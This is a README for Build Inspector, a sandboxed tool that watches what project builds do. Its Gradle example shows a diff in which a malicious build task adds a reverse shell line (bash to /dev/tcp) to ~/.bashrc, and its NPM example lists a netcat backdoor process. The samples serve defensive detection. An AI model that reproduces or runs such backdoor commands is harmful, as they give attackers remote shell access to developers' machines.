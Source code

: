 # Build Inspector

[Build Inspector](https://github.com/sourceclear/build_inspector) is a
tool that gives insight into what's happening when you're building a
project. It is language and build system agnostic and it is capable of
inspecting network activities, file system changes and running
processes. All these happens in a sandboxed environment, without
compromising the developer's machine.

## Requirements

- [Ruby](https://www.ruby-lang.org/en/downloads/) (2.2.3 recommended)
- [Vagrant](https://www.vagrantup.com/)

Once you have both ruby and vagrant installed, go ahead and install
the sahara plugin and bundler. Lastly, clone this repository and pull
in the project's dependencies.

```
vagrant plugin install sahara
git clone https://github.com/sourceclear/build_inspector
gem install bundler
bundle install
```

## Running

First, make sure that you have the
[requirements](https://github.com/sourceclear/build_inspector#Requirements)
and you are inside the repository's directory.

```
cd build_inspector
```

Since this tool does not manage vagrant for you, yet, you'll have to
do it yourself. This step will take a while the first time, but won't
be necessary again. Eventually, this step will be eliminated. Start
vagrant and build the image:

``` vagrant up ```

Once vagrant is started, save a snapshot with:
```
vagrant sandbox on
```

### Usage

```
Usage inspector.rb [options] <git repo URL>
    -h, --help                       Display this screen
    -n, --no-rollback                Don't rollback the virtual machine's state after running
```

### Gradle Example

```
cp configs/gradle_inspect.yml .inspect.yml
ruby inspector.rb https://github.com/jsyeo/TotallyLegitApp.git
```

The above project has a task called `backdoor` that adds a reverse
connect shell to `~/.bashrc`.

After running, you should see this at the bottom of the output:

```
changed: ~/.bashrc
--- /backup/root/.bashrc	2014-02-19 21:43:56.000000000 -0500
+++ /root/.bashrc	2015-11-08 13:07:40.579626388 -0500
@@ -97,3 +97,5 @@
 #if [ -f /etc/bash_completion ] && ! shopt -oq posix; then
 #    . /etc/bash_completion
 #fi
+
+bash -c "bash -i>&/dev/tcp/localhost/1337 0>&1 &disown"&>/dev/null
```

In addition, you'll have a file that looks like
`201523110032412-TotallyLegitApp-evidence.zip` which has all the
network activity, file system changes, and any new processes.

### Bundler Example

```
cp configs/bundler_inspect.yml .inspect.yml
ruby inspector.rb https://github.com/jsyeo/harmless-project.git
```

This bundler project has a gem that pings google during its
installation.

Run it with the Build Inspector and you should see a list of domains
that the machine tried to connect to.

```
The following hostnames were reached during the build process:
  www.google.com (74.125.200.99)                                     543B
```

### NPM Example

```
cp configs/npm_inspect.yml .inspect.yml
ruby inspector.rb https://github.com/jsyeo/ann-pee-am
```

Inspecting this npm project should yield the following output:

```
The following processes were running during the build:
  - /bin/sh -i
  - nc -l 0.0.0.0 8080
```

That's because the npm project depends on a module that opens a
persistent backdoor using netcat.

### Configuration

The tool monitors all network and file system activities.  To ignore
hosts or exclude directories from the monitoring, create and add an
`.inspect.yml` in the repository.  The `.inspect.yml' file is simply
a YAML file that looks like this:

```
---

script: bundle install --jobs 2

whitelist:
  - 10.0.2.2
  - 8.8.8.8
  - bundler.rubygems.org
  - rubygems.org
  - rubygems.global.ssl.fastly.net

directories:
  excluded:
    - /home/vagrant/.gem
  included:
    - /etc
```

There are examples for different build systems in the `configs`
directory.  You may copy the approriate configs for your build system
to the root of this project or you may write one from scratch.

## Development

When you want to experiment, just do `vagrant sandbox on`. Make all
the changes you want to the image. If you'd like to keep them do
`vagrant sandbox commit` and if you don't do `vagrant sandbox
rollback`.
